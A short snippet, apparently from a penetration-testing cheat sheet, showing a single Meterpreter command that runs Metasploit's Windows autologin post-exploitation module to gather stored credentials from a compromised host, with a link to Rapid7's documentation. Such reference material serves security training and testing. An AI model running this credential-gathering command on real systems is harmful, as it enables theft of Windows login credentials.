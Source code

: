 # Metasploit

```
meterpreter > run post/windows/gather/credentials/windows_autologin
```

---
## References

### Rapid7

- [Rapid7: Metasploit Framework - Windows AutoLogin Post Module](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/windows_autologin.md)